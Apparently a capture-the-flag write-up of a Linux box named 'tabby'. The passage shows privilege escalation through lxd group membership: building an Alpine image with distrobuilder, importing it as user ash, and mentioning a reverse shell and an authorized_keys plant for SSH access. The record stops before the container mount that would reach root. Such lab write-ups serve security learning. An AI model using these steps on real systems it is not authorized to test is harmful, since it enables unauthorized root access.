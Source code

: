 ```
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

At [lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1), I can follow it to get root

```
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
```

Make install with root account in kali machine

```
┌──(root💀kali)-[~/go/src/github.com/lxc/distrobuilder]
└─# make                                                                                                                                                                    
gofmt -s -w .
go install -v ./...
go: downloading gopkg.in/yaml.v2 v2.4.0
<snip>
distrobuilder built successfully
```

```
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```

Build file lxd with `distrobuilder`

```
┌──(root💀kali)-[~/ContainerImages/alpine]
└─# /root/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
<snip>
┌──(root💀kali)-[~/ContainerImages/alpine]
└─# ls                                                                                                                                                                      
alpine.yaml  lxd.tar.xz  rootfs.squashfs
```

When I deploy file `lxd.tar.xz` while using reverse shell, I got error `No such file or directory` for file `lxd.tar.xz`. Let's add `authorized_keys` to server and using ssh with private key.

Deploy image again and it work.

```
ash@tabby:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 344c9cfe47fc1c5ff64a553087b3e11649aa40dd47dc074b56488a700479f3bf
ash@tabby:/tmp$ lxc image list
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
| alpine | 344c9cfe47fc | no     | Alpinelinux 3.8 x86_64 (20210408_0521) | x86_64       | CONTAINER | 1.92MB | Apr 8, 2021 at 5:49am (UTC) |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
```
